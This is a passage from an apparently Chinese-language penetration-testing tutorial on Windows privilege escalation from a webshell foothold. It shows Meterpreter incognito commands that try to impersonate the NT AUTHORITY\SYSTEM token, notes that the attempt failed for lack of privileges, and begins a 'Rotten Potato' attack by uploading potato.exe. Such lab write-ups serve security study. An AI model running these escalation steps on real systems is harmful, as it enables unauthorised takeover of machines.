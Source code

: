 确定当前为webshell权限

![](image62/62-7.png)



##### ④单纯令牌窃取

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

![](image62/62-8.png)

提权失败，单纯用令牌窃取提权需要有一定的权限，这里的权限太低。

##### ⑤借助烂土豆提权

上传potato.exe
